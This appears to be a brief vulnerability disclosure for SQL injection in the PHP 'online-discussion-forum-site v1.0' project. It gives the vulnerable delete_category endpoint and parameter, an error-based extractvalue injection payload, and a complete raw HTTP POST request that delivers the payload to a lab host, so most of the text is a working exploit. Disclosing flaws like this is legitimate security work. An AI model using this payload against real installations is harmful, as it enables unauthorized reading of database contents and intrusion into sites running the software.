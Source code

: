 # online-discussion-forum-site v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /odfs/classes/Master.php?f=delete_team

Vulnerability location:/odfs/classes/Master.php?f=delete_category, id

[+] Payload: 2'and/**/extractvalue(1,concat(char(126),database()))and'

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/odfs/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/odfs/admin/?page=categories
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

id=2'and/**/extractvalue(1,concat(char(126),database()))and'
```

![]([https://github.com/mikeccltt/0525/blob/main/online-discussion-forum-site/sql.gif?raw=true))

